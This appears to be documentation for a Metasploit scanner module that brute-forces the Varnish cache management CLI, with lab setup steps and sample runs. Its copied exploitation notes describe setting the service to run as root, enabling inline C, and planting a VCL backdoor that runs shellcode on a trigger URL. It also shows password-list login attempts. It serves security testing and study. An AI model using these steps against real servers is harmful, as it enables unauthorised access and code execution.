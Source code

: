 ## Vulnerable Application

  Ubuntu 14.04 can `apt-get install varnish`.  At the time of writing that installed varnish-3.0.5 revision 1a89b1f.
  Kali installed varnish-5.0.0 revision 99d036f

  Varnish installed and ran the cli on localhost.  First lets kill the service: `sudo service varnish stop`.  Now, there are two configurations we want to test:

  1. No Authentication: `varnishd -T 0.0.0.0:6082`. Varnish 4 and later require either passing '-S ""', or may not support unauthenticated mode at all.
  2. Authentication (based on shared secret file): `varnishd -T 0.0.0.0:6082 -S file`.
    1. I made an easy test one `echo "secret" > ~/secret`

## Exploitation Notes

These notes were taken from the original module in EDB, and can be used when developing a working remote exploit

```
- varnishd typically runs as root, forked as unpriv.
- 'param.show' lists configurable options.
- 'cli_timeout' is 60 seconds. param.set cli_timeout 99999 (?) if we want to inject payload into a client thread and avoid being killed.
- 'user' is nobody. param.set user root (may have to stop/start the child to activate)
- 'group' is nogroup. param.set group root (may have to stop/start the child to activate)
- (unless varnishd is launched with -r user,group (read-only) implemented in v4, which may make priv esc fail).
- vcc_unsafe_path is on. used to 'import ../../../../file' etc.
- vcc_allow_inline_c is off. param.set vcc_allow_inline_c on to enable code execution.
- code execution notes:

* quotes must be escaped \"
* \n is a newline
* C{ }C denotes raw C code.
* e.g. C{ unsigned char shellcode[] = \"\xcc\"; }C
* #import <stdio.h> etc must be "newline", i.e. C{ \n#include <stdlib.h>\n dosomething(); }C (without 2x \n, include statement will not interpret correctly).
* C{ asm(\"int3\"); }C can be used for inline assembly / shellcode.
* varnishd has it's own 'vcl' syntax. can't seem to inject C randomly - must fit VCL logic.
* example trigger for backdoor:

VCL server:
  vcl.inline foo "vcl 4.0;\nbackend b { . host = \"127.0.0.1\";  } sub vcl_recv { if (req.url ~ \"^/backd00r\") { C{ asm(\"int3\"); }C } } \n"
  vcl.use foo
  start

Attacker:
  telnet target 80
  GET /backd00r HTTP/1.1
  Host: 127.0.0.1

(... wait for child to execute debug trap INT3 / shellcode).

CLI protocol notes from website:

The CLI protocol used on the management/telnet interface is a strict request/response protocol, there are no unsolicited transmissions from the responding end.

Requests are whitespace separated tokens terminated by a newline (NL) character.

Tokens can be quoted with "..." and common backslash escape forms are accepted: (\n), (\r), (\t), (
), (\"), (\%03o) and (\x%02x)

The response consists of a header which can be read as fixed format or ASCII text:

    1-3      %03d      Response code
    4        ' '       Space
    5-12     %8d       Length of body
    13       \n        NL character.
Followed by the number of bytes announced by the header.

The Responsecode is numeric shorthand for the nature of the reaction, with the following values currently defined in include/cli.h:

enum cli_status_e {
        CLIS_SYNTAX     = 100,
        CLIS_UNKNOWN    = 101,
        CLIS_UNIMPL     = 102,
        CLIS_TOOFEW     = 104,
        CLIS_TOOMANY    = 105,
        CLIS_PARAM      = 106,
        CLIS_OK         = 200,
        CLIS_CANT       = 300,
        CLIS_COMMS      = 400,
        CLIS_CLOSE      = 500
};
```

## Verification Steps

  Example steps in this format:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/varnish/varnish_cli_login```
  4. Do: ```run```
  5. Find a valid login.

## Options

### PASS_FILE

  File which contains the password list to use.

## Scenarios

  Running against Ubuntu 14.04 with varnish-3.0.5 revision 1a89b1f and NO AUTHENTICATION

  ```
    resource (varnish.rc)> use auxiliary/scanner/varnish/varnish_cli_login
    resource (varnish.rc)> set pass_file /root/varnish.list
    pass_file => /root/varnish.list
    resource (varnish.rc)> set rhosts 192.168.2.85
    rhosts => 192.168.2.85
    resource (varnish.rc)> set verbose true
    verbose => true
    resource (varnish.rc)> run
    [+] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN SUCCESSFUL: No Authentication Required
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    msf auxiliary(varnish_cli_login) >
    ```

  Running against Ubuntu 14.04 with varnish-3.0.5 revision 1a89b1f

  ```
    resource (varnish.rc)> use auxiliary/scanner/varnish/varnish_cli_login
    resource (varnish.rc)> set pass_file /root/varnish.list
    pass_file => /root/varnish.list
    resource (varnish.rc)> set rhosts 192.168.2.85
    rhosts => 192.168.2.85
    resource (varnish.rc)> set verbose true
    verbose => true
    resource (varnish.rc)> run
    [*] 192.168.2.85:6082     - 192.168.2.85:6082 - Authentication Required
    [!] 192.168.2.85:6082     - No active DB -- Credential data will not be saved!
    [*] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN FAILED: bad
    [*] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN FAILED: good
    [+] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN SUCCESSFUL: secret
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```
